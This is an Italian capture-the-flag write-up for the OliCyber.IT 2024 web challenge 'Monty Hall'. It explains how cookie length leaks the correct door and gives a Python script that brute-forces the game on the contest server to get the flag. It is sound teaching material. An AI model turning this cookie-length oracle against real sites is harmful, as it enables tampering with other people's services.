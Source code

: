 # OliCyber.IT 2024 - Selezione territoriale

## [web] Monty Hall (41 risoluzioni)

Pokémon Platinum è il migliore: [Turnback Cave](https://www.youtube.com/watch?v=rf8H4JTdy88)

Sito: [http://monty-hall.challs.olicyber.it](http://monty-hall.challs.olicyber.it)

Autore: Aleandro Prudenzano <@drw0if>

## Soluzione

La challenge presenta all'utente 3 porte, ognuna delle quali può essere scelta cliccando su di essa. Analizzando il codice sorgente o la tab Network degli strumenti sviluppatore del browser, si può notare che cliccare su ciascuna di quelle porte provoca l'invio di un form, con un valore diverso per il campo `choice` sulla base di quale porta sia stata scelta. Giocando con il gioco, cliccando su porte randomicamente, possiamo notare che ad ogni submission, il server ci fornisce un nuovo cookie, a volte più lungo, a volte più corto.

Provando tutte e tre le porte con un cookie fissato come punto di partenza, si può osservare che due delle porte producono un nuovo cookie lungo quanto quello di partenza, mentre una porta produce un cookie più lungo. Analizzando il codice sorgente, possiamo notare che lo stato del gioco è memorizzando all'interno del cookie steso, e ogni volta che l'utente clicca sulla porta corretta, la porta stessa è aggiunta allo stato (in una lista di porte già visitate), generando quindi un cookie di lunghezza maggiore.

E' quindi possibile utilizzare la lunghezza del cookie come un oracolo per capire quale delle porte sia quella corretta ad ogni incrocio, fissando il cookie di partenza e provando tutte e tre le opzioni, avanzando solo quando il cookie ottenuto ha una lunghezza maggiore.

## Exploit

```python
#!/usr/bin/env python3

import logging
import os
import requests
import re

# For HTTP connection
URL = os.environ.get("URL", "http://monty-hall.challs.olicyber.it")
if URL.endswith("/"):
    URL = URL[:-1]


def make_request(session, choice):
    r = requests.post(URL, cookies={"session": session}, data={"choice": choice}, allow_redirects=False)
    return r.text, r.cookies['session']


def solve():
    # Get a token for the first level
    _, current_session = make_request("asd", 1)

    # Loop maximum 12 times
    for _ in range(12):
        # Try all three doors
        new_sessions = []
        for i in range(1, 4):
            content, new_session = make_request(current_session, i)

            # If flag found, print it and quit
            if "flag{" in content:
                res = re.findall(r"flag\{[a-zA-Z0-9_]*}", content)[0]
                print(res)
                return

            new_sessions.append(new_session)

        # Choose the longest session
        current_session = max(new_sessions, key=lambda x: len(x))


if __name__ == '__main__':
    solve()
```
